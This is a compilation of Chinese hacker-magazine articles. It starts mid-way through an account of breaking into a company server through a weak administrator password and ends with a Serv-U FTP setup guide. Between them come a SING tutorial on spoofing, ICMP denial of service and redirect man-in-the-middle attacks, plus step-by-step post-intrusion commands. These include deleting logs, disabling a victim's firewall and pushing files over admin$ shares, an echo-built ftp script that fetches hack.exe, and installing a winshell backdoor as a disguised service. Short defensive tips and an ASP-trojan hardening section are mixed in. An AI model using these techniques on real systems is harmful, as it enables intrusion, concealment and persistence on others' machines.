我有意识地打开“控制面板→管理工具→事件查看器”，查看应用程序日志、安全日志和系统日志。其中应用程序日志和系统日志记录的事件很多，但我发现日志显示已满，所以没有记录下笔者登录的信息，而安全日志竟然没有记录任何事件！真是便宜俺了，省劲了。关闭控制面板，又分别进入 C: 盘的 `Winnt\system32` 下的 `logfiles`、`config` 和 `dtclog` 文件夹下查找 `*.log`、`*.evt`，又打开了 `system32` 和 `Winnt` 文件夹下的 `*.txt` 和 `*.log`，发现其中有两个日志文件记录了我的电脑的 IP 地址和其它信息，好像是扫描的信息。如图 11：


图11

好家伙，这让网管看见还了得。于是，把凡是记录了我的电脑 IP 等信息的日志文件全部删除（没有的可以不删），返回桌面后，清空回收站，然后退出酷蛇登录器。接着回到 CMD，断开 IPC$ 连接，关闭 CMD 窗口。最后轻松地伸了个懒腰，## 长长地出了一口气！

虽然笔者成功入侵了 BQQ 服务器，但整个过程是比较简单的。恰逢这个服务器漏洞非常多，又遇到了管理员帐号是弱口令的极理想情况，和众高手相比简直是小巫见大巫，不值一提。但是话又说回来，连笔者这等小菜鸟也能成功入侵网络，那对高手来说不就是探囊取物了吗？进而他们就可能进入业务、财务等服务器，那么数据的安全就无从谈起了。所以，笔者认为，企业网的安全问题应该引起足够的重视。有些问题虽然看似简单，但越是简单，越容易被忽视，从简单处入手注意网络安全肯定有益无害。这里笔者提几点肤浅的建议，仅供参考。

### 1、关于企业网中的计算机名问题

很多网管喜欢使用操作者名字的汉语拼音全称或字头缩写，或善用相应的英文名称做该用户的计算机名，当然这样非常好记，但这在局域网中是非常危险的，因为这给入侵者提供了非常准确的定位：轻而易举就能找到对应的计算机。

### 2、关于密码设置问题

有一些网管很粗心，Windows 2000 服务器的管理员帐号（其他帐号也如此）、UNIX 的超级用户帐号、某些关键用户帐户以及路由器等等，密码设置都不够健壮，非常简单，通常口令长度的位数都小于 8 位，甚至使用了弱口令、空口令、口令与用户名相同、使用自己的名字、生日、用对应分支公司的拼音字头加设备型号做口令，等等。这样做的后果是很容易就被入侵者用扫描程序扫描出口令，或者被暴力破解。设置密码时应该位数要在 8 位以上，采用大小写字母加数字加特殊字符的组合。即便如此，在理论上也没有攻克不了的密码，所以还要定期更换密码。

### 3、关于操作系统问题

察笔者入侵的这个 BQQ 服务器的操作系统漏洞如此之多，就是管理员的失职啦。其实，黑客入侵通常的第一反应就是寻找操作系统漏洞，然后根据具体漏洞，再选择合适的工具软件进行有针对性的攻击。所以，减少操作系统漏洞，及时掌握漏洞动态，按时打补丁，就能有效地阻止黑客的入侵。

### 4、关于应用系统的代码库问题

企业网中应用系统都采用分级管理的模式，很多企业数据库采用的是 UNIX 系统下的 INFORMIX。操作员代码库都是由管辖公司的网络数据库管理员建立的，所有分支机构的操作员代码、登录口令等信息都存放在一个公共数据库内的人员代码表中，只有赋予管理员权限的用户才能增加或修改人员代码表的记录，但这种方式也存在一定的弊端。虽然某个操作员没有设置管理员权限，但由于他知道应用系统的登录帐号和密码，所以他就可以通过建立 ODBC 数据源连接的方式，通过 PB、VFP 或其他数据库系统，甚至是 EXCEL，连接到公共数据库，进而打开人员代码表，然后就可以拿到任意一个操作员的代码和口令。由于网络编程的原因，代码和口令都是明文文本放在人员代码表中。这样就可以轻易拿到信息技术部门数据库管理员的代码和口令，然后用此进入业务系统，修改用户权限和业务信息。笔者认为，应该改变人员代码和口令的存放方式，至少改为加密换算后再存到表中，另外是否把代码表从公共库中分离出来，有待探讨。

### 5、关于内网连接互联网问题

企业网在没有硬件防火墙做保障的条件下，应该禁止内网中的电脑登录 Internet。因业务需要上网的电脑要和内网分离开，而且也要安装软件防火墙、杀毒软件，配备木马克星等防黑客程序。这样，一方面抵御外来的入侵，另一方面阻止内部的破坏。

目前，各行各业竞争都比较激烈，企业人员流动频繁。有很多人因为职位升迁、工资待遇、福利待遇等因素对单位产生不满，稍有不顺，就有可能促使关键岗位人才的跳槽，而这些人走了之后，心态肯定是不会好的，找机会出气是很可能的事儿。笔者收拾 8888 那样，但是他们可就没有笔者这么仁慈了。他们可能进入党组织领导的电脑，窃取党的机密，进入财务领导的电脑，窃取财务数据，进入业务领导的电脑，窃取业务数据……然后把这些重要信息拱手送给同行的竞争对手。这样的事情不是没有发生过，所以笔者提醒广大企业网的网管们，增强你们的责任心吧，提高一下网络安全意识，抓紧修补系统漏洞，改换复杂的密码，学习并掌握一些黑客入侵的常用方法，如 IPC 入侵、利用系统漏洞溢出管理员入侵以及分布式拒绝服务 DDoS 攻击等，一些常见的漏洞和攻击方法要熟记在心，能熟练使用流行的黑客工具，像扫描工具 X-SCAN、黑客字典、破解程序等。这正是只有懂得怎样进攻，才能懂得怎样防守，打铁还需自身硬。啰嗦了这么多，终归一句话，网络安全以预防为主，防患于未然，我想应该算是一条真理吧！


ICMP—Internet Control Message Protocol（网间报文控制协议），它是 IP 不可分割的一部分，用来提供错误报告。一旦发现各种错误类型就将其返回原主机。ICMP 不像 TCP 或 UDP 存在端口，但它确实含有两个域：类型（type）和代码（code）。而且这些域的作用和端口也完全不同。

先举个大家都熟悉的例子：我们就使用一个 ICMP ECHO 数据包来探测主机地址是否存活（当然在主机没有被配置为过滤 ICMP 的情况下），通过简单地发送一个 ICMP ECHO（Type 8）数据包到目标主机，如果 ICMP ECHO Reply（Type 0）数据包接收到，说明主机是存活状态。如果没有，就可以初步判断主机没有在线，或者使用了某些过滤设备过滤了 ICMP 的 REPLY。这就是常用的 PING 命令的工作机制。

关于 ICMP 报文大致信息可以参见图 1（详细资料请参见 RFC 792 文档）；这里只是一个简单的表格。为了更贴切地说明，下面结合一个很强大的 ICMP 包定制工具来说明问题。

```
名称：SING - Send ICMP Nasty Garbage packets to network hosts

用途：专门构造各种畸形 ICMP 数据报文探测主机和网络。

下载地址：http://download.sourceforge.net/sing/SING-1.0b7.tgz
```

## 附录

| 类型 | 代码 | 描述 |
|---|---|---|
| 0 | 0 | 回显应答 |
| 3 | 0 | 网络不可达 |
| 3 | 1 | 主机不可达 |
| 3 | 2 | 协议不可达 |
| 3 | 3 | 端口不可达 |
| 3 | 4 | 需要进行分片但设置了不分片比特 |
| 3 | 5 | 源站选路失败 |
| 3 | 6 | 目的网络不认识 |
| 3 | 7 | 目的主机不认识 |
| 3 | 8 | 源主机被隔离（作废不用） |
| 3 | 9 | 目的网络被强制禁止 |
| 3 | 10 | 目的主机被强制禁止 |
| 3 | 11 | 由于 TOS，网络不可达 |
| 3 | 12 | 由于 TOS，主机不可达 |
| 3 | 13 | 由于过滤，通信被强制禁止 |
| 3 | 14 | 主机越权 |
| 3 | 15 | 优先权中止生效 |
| 4 | 0 | 源站被关闭 |
| 5 | 0 | 对网络重定向 |
| 5 | 1 | 对主机重定向 |
| 5 | 2 | 对服务类型和网络重定向 |
| 5 | 3 | 对服务类型和主机重定向 |
| 8 | 0 | 请求回显 |
| 9 | 0 | 路由器通告 |
| 10 | 0 | 路由器请求 |
| 11 | 0 | 传输期间生存时间为 0 |
| 11 | 1 | 在数据报装配期间生存时间为 0 |
| 12 | 0 | 坏的 IP 首部（包括各种差错） |
| 12 | 1 | 缺少必需的选项 |
| 13 | 0 | 时间戳请求 |
| 14 | 0 | 时间戳应答 |
| 15 | 0 | 信息请求（作废不用） |
| 16 | 0 | 信息应答（作废不用） |
| 17 | 0 | 地址掩码请求 |
| 18 | 0 | 地址掩码应答 |

图 1 ICMP 报文信息

要有 Libnet 和 Libcap 库的支持。

你可以去网上下载到最新版本的 Libnet 和 Libcap，不过它的包里面已经包含了这 2 个库。操作界面：

```bash
bash$ sing -h
Usage: SING [-RvwqQGBU] [-c count] [-T wait] [-p pattern] [-s garbage size]
      [-t ttl] [-T tos] [-f bytes] [-i interface] [-S spoof addr] [-L file] [-M MAC hv_addr] [type] host

Type:
  -echo   Echo Request (default)   -reply  Echo Reply
  -du     Destination Unreach.     -info   Information Request
  -mask   Address Mask Request     -param  Parameter Problem
  -rta    Router Advertisement     -rts    Router Solicitation
  -red    Redirect                 -sq     Source Quench
  -stamp  Timestamp                -tx     Time Exceeded
  -h      This help screen         -V      Program version
  -v      Verbose mode on

Host:
  host                          Sending to a host.
  router1%router2%router3%host  Sending with Strict Source Routing.
  router1@router2@router3@host  Sending with Loose Source Routing.

Please, see the man page for a full list of options and many examples.
Send your bugs & suggestions to Alfredo Andres, Slay <aandres@isec.com>
```

图 2 操作界面

描述：SING 是一个命令行下发送 ICMP 数据包的工具。默认情况下发送“ECHO REQUEST”（请求回显：Type 8）类型的数据报文。它的各项参数把 ICMP 协议应用得淋漓尽致，能根据使用者的不同需求来发送不同类型的报文，因为它和 ICMP 的完美结合，它有很多功能：

- 比如：用伪造的 IP 或 MAC 地址发送、接收数据包；
- 具有“指纹识别”功能，可以用来简单地判断操作系统；
- 模仿具体的操作系统发送 Type 8、Type 0 类型的报文；
- 基于 ICMP 重定向的路由欺骗；
- 设置数据包到达主机的路径。（上图中就有例子，路由地址间用 % 或者 @ 分隔开，两者差距在于如果使用“%”符号，数据包在路径的选择上则会很严格地遵守你输入的内容。这不一定是件好事，因为你输入的路径可能并不能够到达主机。）

让我们在熟悉 SING 操作的基础上来学习使用 ICMP 协议，先看看 SING 的常用选项：

- `-B`：发送一段错误校验和的 ICMP 数据报文。
- `-c count`：发送指定数目的数据包。
- `-F bytes`：把 ICMP 数据包的内容分割成指定大小的片断发送出去。由于系统的局限性，在 Solaris 上无法使用。
- `-G`：在 IP 数据包中设置不被分片（DF）标志。在一般情况下发送的数据包都会通过路由分段再发送给对方，加上此参数以后，对数据包的头部路由就不会再分段处理了。可以用来判断某些操作系统。后面会详细说明。和上面一样，此参数在 Solaris 上无法使用。
- `-i interface`：指定工作时使用的网络接口名称（可以是 IP 地址或者是具体名字，一般都是 eth0）。
- `-I pipeload`：如果要使用此参数，SING 会尽快尽多地发送数据包；当然也会加重网络负担，所以个人觉得这个选项就是为攻击而设的；有点接近 ICMP DoS 攻击行为。不过也只有超级用户才能使用这个选项。
- `-L logfile`：将此次行为记录到指定文件里。内容很全面，包括探测起始和结束时间、命令、数据选择、主机回应（包括这个屏幕的回显内容）。如果指定文件已经存在，记录将会被追加记录在其尾部。
- `-M os`：在发送 Echo Request 或 Echo Reply 数据报文时，模仿某些操作系统。比如：win、unix、linux、cisco、solaris 以及 shiva。
- `-MAC hv_address`：前面之所以是通过修改包头 MAC 信息部分进行 MAC 欺骗。hv_address 的格式：00:FF:AC:33:4B:DC。这必须是在 libnet 库工作在网络链路层时，也只有超级用户才可以使用此选项。
- `-O`：用指纹识别技术探测主机操作系统。
- `-p pattern`：用来选择指定的字节填充你的数据包。这里例子是用“pattern”这个单词填充数据包的 data 部分。据说有些网络问题用这种数据填充的办法就能够更快地诊断出来。
- `-q`：精简的屏幕输出。
- `-Q`：比上面的参数更彻底，任何内容都不会显示出来。在编写 shell 脚本时这个参数用得比较实用。
- `-R`：完整记录数据包经过路径的路由状况。
- `-s bytes|max`：指定发送数据包大小的参数。如果选用 SING 作为发送进行控制时，最大的报文包为 4980 bytes。
- `-S address`：就是 spoof 的意思，它伪造一个虚假的 IP 向别人发送 ICMP 数据包。这个参数需要 libpcap 库的支持；如果你伪造主机 A 向主机 B 发送了数据包，主机 B 的回应数据会全部发送到主机 A，所以你必须把自己的网卡设置成混杂模式才能够监听到主机 B 的回应。（只有超级用户才能够使用这个参数）
- `-T ttl`：设置数据包的“Time To Live”值，不多说了，对于这个值大家都很熟悉。使用 ping 命令简单地探测主机操作系统就是经常依据这个数值。
- `rta`：rta 值——相邻两次发送数据包的间隔时间，纯数字。单位是微秒。
- `TOS tos`：指“服务类型”字段被设为 tos 指定的值，缺省情况是 0。
- `-U`：设置 IP 头部不使用 bit 标志。由于 BSD 操作系统一般把 IP 数据包头标志设为 0，所以必须借用 libpcap 把网卡设置成混杂模式才能接受到目标主机的回应，在 Solaris 上这个参数则无法使用。
- 指定发送 ICMP 的报文号，有效的 code 类型有：目标无法到达（-du）、重定向（-red）、超时（-tx）等，当然你也可以参照图 1 用数字形式指定 code 值。

SING 可以选用的 ICMP 报文类型可以是下面的任何一种：

```text
echo，——echo request
请求回应。默认状态下使用，也是最常用的。发送一个
请求到目标主机并等待回复。(type 8)

tstamp，——timestamp
时间戳请求。网络上一台主机向另一台主机访问时间戳
就用的这个请求。这个请求可以用来探测 win 98/me/
2000/NT 操作系统。(type 13)

mask，——mask req
地址掩码请求。用来查询某个主机所处网络的掩码。
(type 17)

info，——info req
信息请求。用来获取目标主机的相关信息包回应。(type
15)

-rta，——router advert address[/preference]
-rts，——router solicit
路由器广播/请求报文。(type 9/10)
一般认为：主机在引导以后要广播或多播传送一份路
由器请求报文。一台或更多台路由器响应一份路由器通告
报文。另外，路由器定期地广播或多播发送它们的路由器通
告报文，允许每个正在监听的主机相应地更新它们的路由
表。路由器广播报文优先级缺省情况下为 0。

-reply，Echo Reply
回应应答。一个网络请求的响应。实际应用中和 type
8 紧密结合在一起。(type 0)

【以上几种都属于信息类 ICMP 报文】

du，——dest unreach
目的不可到达。IP 数据包无法到达目标。(type 3)

sq，——src quench
源端被关闭。(type 4)

red，——redirect
重定向。发往目标主机的数据包被迫改变传递路由。
(type 5)

tx，——time exc
IP 数据包超时。(type 11)

param，——param problem
参数问题（包括坏的 IP 头部和缺少必须的选项）。(type
12)

【上面 5 种则属于错误类 ICMP 报文】
了解到这些基本知识，再巧妙地应用上述的各种报文类
型，就可以帮你完成各种工作。
```

下面就来看一看 SING 是如何实现的：

- 1、SING 的指纹识别技术是如何通过 ICMP 实现的：

一般来说使用被动特征探测远程主机，有 4 种手段：

- TTL——这个数据是操作系统对出站的信息包设置的存活时间。
- Window Size——是操作系统设置的窗口大小，这个窗口大小是在发送 FIN 信息包时包含的选项。
- DF——可以查看操作系统是否设置了不准分片位。
- TOS——查看操作系统是否设置了服务类型。

你可以在 http://www.xfocus.net/projects/honeynet/chinese/papers/finger/traces.txt 获得一份详细的信号特征库。上面的 4 项数值都包含在里面了。这份资料不很全面，仅供参考。

SING 在探测过程中只要加一个 `-O` 选项，就可以给出目标操作系统，不需要人工分析。不过你可以通过阅读屏幕回显进行人工分析，这样更精确些。上面提到的 4 种手段中，SING 能够返回 TTL、TOS 值，加上 `-G` 参数还能返回 DF 状况。下面就是一个例子：

```bash
bash# sing -G -O 20.11.11.114
SINGing to 20.11.11.114 (20.11.11.114), 16 data
bytes
16 bytes from 20.11.11.114: seq=0, DF!, ttl=255,
TOS=0 time=6.008 ms
--- 20.11.11.114 sing statistics ---
1 packets transmitted, 1 packets received, 0% packet
loss
round-trip min/avg/max = 6.008/6.008/6.008 ms
<*> Remote OS on 20.11.11.114 is a Solaris
2.x
```

经过和 traces.txt 的对照，发现 ttl、TOS 和 DF 均符合 Solaris 2.x 对应的数值，所以大致判断出目标操作系统为 Solaris 2.x。

- 此外，Ofir Arkin 发现下面 2 个有趣的现象：

1. 你可以发送一个 code 段不为 0 的 ICMP 数据包到目标，并等待主机回应；如果目标是 Windows 操作系统，则不会给出回应，而其它操作系统则据此请求回应正确的应答报文。
2. 对于 ICMP 地址掩码请求，只有少数操作系统会进行响应，这些系统包括 ULTRIX、OpenVMS、Windows 95/98/98 SE/ME、NT below SP 4，和 SUN Solaris 机器。但其中 SUN 机器和 HP-UX v11.0 对碎片 ICMP 地址掩码的回答（fragmented ICMP Address Mask Requests）很奇怪：0.0.0.0，所以用户可以用这个方法来判断这两种系统。

原文可以参考：http://www.sys-security.com/archive/papers/ICMP_Scanning.pdf

这 2 个现象也可以用来作为判断操作系统的手段和依据。

- 2、伪造 IP/MAC 地址形成攻击：

上面提到用 `-S` 选项可以伪造机器 1 向机器 2 发送数据包，然后借助 libpcap 库将自身设置成混杂模式，就可以监听到机器 2 回应给 1 的数据包。如果我们伪造机器 1 的 IP 向某个网络的广播地址发送一个 ECHO 包，那么这个网络里的所有机器都会发送一个 ECHO REPLY 包给机器 1，假设有 100 台机器接受到了我们的伪造包，就会有 100 台机器同时发送回应给机器 1，想一想后果——形成了 DoS 攻击。

- 3、基于 ICMP 的路由欺骗：

涉及选项：`-rta`，——router advert address[/preference]

几乎所有操作系统内部都有一张路由表列表，列表中位于第一项的是默认路由器，如果默认路由器关闭，则位于列表第

## 附录

二项的路由器成为缺省路由器，依次类推。缺省路由向发送者报告另一条到特定主机的更短路由，就是 ICMP 重定向。攻击者可利用 ICMP 重定向报文破坏主机路由列表，除了路由器，主机还必须服从 ICMP 重定向。如果机器 A 向网络中的另一台机器 B 发送了一个 ICMP 重定向消息，这就可能引起机器 B 具有一张无效的路由列表。如果机器 A 伪装成路由器并担任起路由器的责任，这样机器 B 的数据都会流经机器 A，A 就能够轻而易举地截获到所有敏感数据，这个也称为中间人攻击。

- **4：巧妙设置数据包的路由，探测到防火墙后面的主机。**

在一些网络协议中，IP 源路径选项允许 IP 数据报告自己选择一条通往目的主机的路径（多路径正是网络连接的精髓部分！）。攻击者试图与防火墙后面的一个不可到达的主机 A 连接，只需在送出的 ICMP 报文中设置 IP 源路径选项，使报文有一个目的地址指向防火墙，而最终地址是主机 A。当报文到达防火墙时被允许通过，因为它指向防火墙而不是主机 A。防火墙的 IP 层处理该报文的源路径后并被发送到内部网上，报文就这样到达了不可到达的主机 A。

- **5：SING 的模仿技巧：**

使用过程中选用参数为 -M，可以模仿的操作系统有 Windows 98/NT/2000、UNIX、Linux、Cisco、Solaris 以及 Shiva。实际原理是由于不同的操作系统发送数据包的某些特征值也不同，所以这里所谓的“模仿”就是更改发送数据的 IP 数据包头标志位、TTL 值、ICMP 原始序列号、ICMP ID 和 ICMP 数据部分，使之与那些系统发送的数据包一样。在一般的探测中还用不到这个功能。

- **6：如何使用 ICMP 扫描目标端口**

方法并不难，只要发送一个 SYN 标志位的数据包到目标某端口，如果返回包类型为 SA 类，则目标此端口开放。如果返回的类型为 RA 类，则说明此端口已关闭。可惜 SING 对数据包的标志位没办法很好地定制，否则功能会更强大。用 HPING 就能很好地做到这一点。

最后补充点关于 SING 返回值的问题，在编写 SHELL 脚本中用这个可能会多一些。

- **数值：含义**
- `0`：至少收到了 1 个来自目标主机的回应。
- `1`：一般性错误。
- `2`：发送出了数据包但是主机没有回应。
- `3`：无法识别，错误类型。

其实 ICMP 协议可以做的事情还有很多，比如探测目标的开放端口，探测防火墙规则等。

使用 SING 你就能够构造各种各样的 ICMP 报文，接下来能做些什么事情，就看你的创造力了。

## 如何防范 ASP 木马

说起 ASP 木马，国内 lcx 改编的“海阳顶端网木马”尤为著名，相信大家都在自己的“内机”上试过。使用这个木马可以在浏览器上浏览对方主机硬盘中的文件，并进行上传、新建、修改、删除的功能，内嵌 aspcmd 后门文件，一个支持 FSO，另一个不支持 FSO。在论坛上许多网友都提问何为 FSO，在这里我再给那些不清楚的朋友解释一下。

FSO（FileSystemObject）是微软 ASP 的一个对文件操作的控件，该控件可以对服务器进行读取、新建、修改、删除目录以及文件的操作，是 ASP 编程中非常有用的一个控件。但是因为权限控制的问题，很多虚拟主机服务器的 FSO 反而成为这台服务器的一个公开的后门，因为客户可以在自己的 ASP 网页里面直接对该控件编程，从而控制该服务器甚至删除服务器上的文件。

既然这个木马这么厉害，那如何防范呢？其实很简单，我一说出结果来，你就会恍然大悟。呵呵，在这里我先卖个关子。咱们先来看一下没有经过处理的 WEB 服务器（我在本机实验）。

比如，我通过一漏洞顺利上传“海阳顶端网木马”，之后我就可以随意浏览对方硬盘里的东西了，如图 1：


这时你就控制了这台服务器，你想怎样“处理”它就随你的便了。

> （好了，好了，我们早就知道了，以后的事情不用你说，你还是快说如何防范吧，小马们都被观音我着）

其实很简单，只需要把文件系统设成 NTFS，设置如图 2：


注意一定要把 everyone 组删掉，我们添加 Administrator 组并赋予权限，如图 3：

这里我提醒一下大家，不要把 GUEST 组添加进来。然后我们再来看一下“海阳顶端网木马”是否还能浏览我们硬盘中的文件？如图 4：从图中看出已经不能读出文件来了，而且上传、新建、修改、删除的功能以及 cmd.asp、bak.asp 也都不能用了。怎么办？很简单吧？那些空间服务商没有把虚拟主机设置好，所以导致了被黑，也影响了许多用户。如果把文件系统 FAT32 转换成 NTFS 就不会发生这种情况了。提醒做 WEB 服务的朋友一定要把文件系统转换成 NTFS，并且根据主机情况设置好相应的权限。


图 3


图 4

## 文件传输之全体验

刀志浩

最近翻看了一下《X 档案》前几期的黑客入侵实例，发现在入侵过程中碰到的很多问题都与文件的上传/下载有关，而文件的上传/下载又是入侵中的一个重要环节。所以，笔者在此给大家总结说明一下。

常用的文件上传/下载方式无非有以下几种：一是通过 Windows 的默认共享，二是采用 tftp 方式，三是利用 ftp 方式。

## 1. 利用 Windows 默认共享传送文件

先说一下通过 Windows 的默认共享传送文件。这是最被广大初学者所喜爱的方式，我想很多人的第一台肉鸡都是通过流光或 X-scan 扫描管理员的弱口令得到的吧。采用这种方式的人侵最简单的传送文件方式是通过 Windows 的默认共享（嘿嘿，有管理员空口令，想必默认共享是不可能关的吧）。

具体实现方式如下：

```text
net use \\2.2.2.2\admin$ "fei" /user:"fei"
copy c:\files \\2.2.2.2\admin$
```

对于上面两行命令，我想曾经尝试过共享入侵的黑迷一定很熟悉。在这里我还是给新手们介绍一下吧！第一条命令是以用户“fei”的身份登录，密码也是“fei”（即你扫描出来的管理员的用户名和密码），第二条命令是将本地计算机 C 盘根目录下的“files”文件拷贝到对方的 admin$ 目录（admin$ 共享对应对方主机的系统盘的 system 目录）。当然你还可将对方的硬盘映射过来，这样你就可不用长长的命令了。如下：

```text
net use z: \\2.2.2.2\admin$ （映射对方的 admin$ 目录为自己的 z 盘）
net use z: \\2.2.2.2\admin$ /delete （断开连接，这样对方在关机时就不会出现警告对话框了）
```

网上还流行着一种入侵方式——即扫描到弱口令后用 DameWare 直接给对方主机安装远程管理软件（图 1），其实这种方式也是依赖对方的默认共享的，不过安装完后就可利用 DameWare 自带的上传功能了，这自然比用命令行要直观得多，不过我还是喜欢用命令行，方便简单，又不易被发现。


图 1

## 2. 用 tftp 方式传送

再说一下另一种大家常用的方法——tftp 方式。对于这种上传方式，《X 档案》已介绍过很多，大家可参考 2003 年第 8 期 25 页的“Tftp 安装使用全接触”。Tftp 上传方式在实际应用过程中会碰到好多问题，这里给大家说说上传超时的问题。

这种问题的出现，除了与网速有关外，还与许多其它因素有联系，比如说大家最痛恨的防火墙。以大家熟悉的天网防火墙为例，由于对方过滤了 69 端口，我们在传送过程中会出现连接超时，这样我们就应该想办法把天网干掉。方法是利用 Windows 操作系统的一个特性，不能删除正在使用的文件却能改名，这样就可把天网的主程序改名，下次它就不能实现自启动了。方法如图 2。


图 2

看到了么？pfwmain.exe 就是天网防火墙的主程序文件。改名后，对方的机器重启后它就失去了防火墙的保护，我们就可为所欲为了。

在这些我还想纠正另一种对这个问题的处理方法，就是用 pulist 和 pskill 工具将防火墙关掉再上传的方法，这其实犯了一个逻辑错误。pulist 和 pskill 并不是 Windows 自带的工具，目标主机上并没有，如果要使用，我们必须把这些工具上传，但如果能上传这些工具，我们为什么不能上传别的文件呢？

还有一种情况也会导致上传超时问题的出现，就是有些管理员看了《X 档案》这样的安全类刊物，学聪明了，就按照上面介绍的方法将 `%systemroot%\system32\drivers\etc` 下的 `service` 文件修改了，这样我们在连接超时时就能够仔细看看这个文件。如果发现里面的“tftp 69 /udp”被替换成了“0 /udp”，那你该知道为什么会连接超时了吧，赶快将它改回来吧！

## 3. 我的新方法

介绍完大家最常用的两种方法，我再把最近刚从网上看到的一种新方法介绍给大家，这种方法更加难以被管理员禁止。大家还记得《X 档案》曾经介绍过的小程序 wget 么？别看它小，却能从网上以 http 协议下载文件，还支持断点续传。软件虽好，但由于不能上传，所以不能使用。别难过，考虑一下能不能用 Windows 自带的程序，达到同样的目的？当然能。

Start 是 Windows 自带的一个程序，其作用是启动另一个窗口运行指定的程序或命令。我们在这里用它来下载文件。

首先，将要上传的可执行文件的扩展名改为 ok.gif，然后在 shell 提示符下敲入“start??http://文件所在主机ip/ok.gif”，这样就可以让 IE 帮我们把网上的程序下载回来。然后使用 find 命令在临时文件夹里查找“ok*.gif”，通常是“ok[1].gif”，再将找到的文件改回 exe 的扩展名就搞定了。过程如图 3。


图 3

现在还有一个问题没有解决：谁给我们提供改名后的程序下载？你当然可以在网上申请一个免费空间，不过我在这里给你提供一个更简单的方法：用 WWW File Share，使用这个软件可轻易将本机做成一台 http 服务器来传送文件，它的设置方法如图 4。


图 4

然后将要下载的文件放入共享目录就可以下载了。是不是很方便？不过，我在这里提醒大家一下在使用这种方法下载文件时远程主机会弹出一个 IE 窗口，所以应该在管理员不在时使用。

## 4. 使用 ftp 的方式

大家平时使用 ftp 时常用的是 cuteFTP 之类的 ftp 客户端软件，其实我们完全可在 shell 提示符下进行文件传送，前提是你要有一台 ftp 服务器，过程如下：

- 1. ftp 服务器相关参数：
  - 端口：21
  - 地址：192.168.0.1
  - 用户名：user
  - 密码：pass
- 2. 然后在远程主机上制作一个脚本文件，用 echo 命令即可。

```text
echo ftp>1.txt
echo open 192.168.0.1>>1.txt
echo user>>1.txt
echo pass>>1.txt
echo get hack.exe>>1.txt
echo bye>>1.txt
```

- 3. 生成后就可开始使用 ftp 了。

```text
ftp -s:1.txt
```

这样就可以把 aaa.exe 上传到远程主机了。

知道了这些，你只要将要上传的文件放到 ftp 服务器上就可进行传送操作了。

除了这些通用的文件传输方法，还有一些与具体漏洞结合的上传方法，比如说 FrontPage 扩展漏洞的利用、脚本程序漏洞攻击的利用等。

> 注意：本文提到的 WWW File Share 软件无法在高校 BBS 上找到。

## 实战职教学

### ——注册系统服务

紫幻

想必菜鸟都碰到过有些木马或者是后门或者是一些程序不能开机自动启动吧？或者是有些后门或者是木马在肉鸡重新启动以后就连不上了吧？其实造成这样的原因很简单，就是有一些后门或者是木马没有把自己本身注册为系统服务。在 winnt/win2000/winxp/windows server 2003 里都有系统服务。通过“服务”，您可以在远程和本地计算机上开始、停止、暂停或继续服务，并配置启动和故障恢复选项。还可以为特定的硬件配置文件启用或禁用服务。查看系统都注册了哪些服务很简单。有两种方法。

- 1. 在 cmd.exe 下输入命令 `net start`，这样就可以看到当前系统的所有服务名。如图 1。


以上看到的就是当前系统下都启动了哪些服务和服务的名称。

- 2. 在图形界面下看系统服务。方法：我的电脑→控制面板→管理工具→服务。双击打开服务管理器，就在图形界面下看到了系统都有哪些服务。如图 2。


假设我想看其中一个服务的详细信息，只要双击这个服务名称就可以了。大家一定不会对 telnet 服务陌生。我就拿 telnet 服务为例子给大家讲一讲服务的详细信息。如图 3。


在图 3 可以看到服务的状态可以分为 3 种：

- 1. 自动　自动就是系统每次启动的时候都会自动加载。
- 2. 手动　手动就是指系统每次启动都需要人工的方式来启动。
- 3. 禁用　禁用就是指系统每次启动根本不加载。

怎么样？系统服务的功能是不是也很强大？基本知识介绍这么多。下面我就给大家介绍一下如何把我们想要的文件注册为系统服务。

以前这方面工具也有很多。比如 SA……但是在我使用的过程中感觉效果不是很好。有时候会失败。而且参数复杂不太适合菜鸟。今天我为大家介绍一款注册服务的超级工具包。

工具包里有两个文件。

- 1. `instSrv.vbe`（vbe 脚本文件）
- 2. `srvany.exe`

以上工具身材小巧，一共才 20K，这样方便大家在 hacking 的时候往肉鸡上上传 :)

下面我来讲解一下它的详细使用方法。instsrv 最主要的部分就是：

```text
-sn：服务名称
-dn：服务描述
-pn：文件的绝对路径
-sm：服务启动模式。1=自动；2=手动
-sp：可选项。服务时运行参数
```

其实以上这些都不难理解。下面我就拿大名鼎鼎的 winshell 做个例子，给大家演示一下我是如何用 instsrv.vbe 把它注册为系统服务的。首先把 winshell.exe、instSrv.vbe、srvany.exe 全部复制到 `c:\windows\system32` 下。然后 DOS 下进入 `c:\winnt\system>` 目录。然后输入命令：`cscript instsrv.vbe /sn:test /dn:"Test Notepad Server" /pn:"c:\winnt\winshell.exe" /sm:1` 看图 4。

OK。现在已经把 winshell 注册成了服务。服务的名字为：test，服务的描述为：Test Notepad Server，服务的启动方式为自动。

以上就是简单使用 instsrv.vbe 注册系统服务的方法。instsrv.vbe 在 -sp 一项还支持启动参数。请读者根据程序的自身情况具体制定。

- 1. 如果想更好地隐藏服务，就要把服务名字改成比较接近正常的系统服务。当然还可以先停止系统本身的服务，再替换掉系统本身服务的文件。
- 2. 记得一定要把 instsrv.vbe 和 srvany.exe 放在一个文件夹。要不程序会不能运行。
- 3. 如果你选择服务的启动方式为手工，就需要每次重新启动的时候执行命令：`net start 服务名`

如果你想停止服务的时候就要输入：`net stop 服务名`

本篇就到这里，有什么疑问的话到 X 论坛和我讨论！


## Serv-U 使用教程

## 一、下载和安装

在 Serv-U 的官方站点 http://www.serv-u.com 可以下载到最新的版本。

解压缩后，只要点击 setup 进行安装就可以了。

安装完成后，在开始菜单中选择 Serv-U administrator（图 1）来启动 Serv-U 的管理界面（图 2）；


## 二、建立 FTP 服务器

在初次启动 Serv-U 的时候，会出现新建 FTP 服务器的向导，如果没有出现的话，可以通过右键“Serv-U 服务器”来选择新建服务器（图 3）。

第一次使用的话，会自动弹出的向导对话框来帮助你建立一个 FTP 服务器（图 4）；

连续三步后，就开始连接本地的 FTP 服务器，等待一会，然后又会弹出一个对话框（图 5）；


在这里填写上你的 IP 地址，如果 IP 地址是动态的，可以不填，Serv-U 会自动获得的。

接下来，进行下一步，这里会要求输入对你的 FTP 站的描述，根据你自己的需要，输入自己想要的文字就可以了（图 6）；然后在下面的一步中会询问你是否允许匿名登录（图 7）；在一些网页中，如果安全级别不够高的话，建议使用匿名用户登录，这样可以有效地防止密码被 sniffer 程序嗅探到。


图 6

图 7

如果允许匿名登录的话，会要求选择匿名用户的主目录（图 8）。

目录选择完成后，会询问是否将匿名用户锁定在主目录中，为了防止用户访问未授权的访问，建议最好选择“是”（图 9）。


图 8

图 9

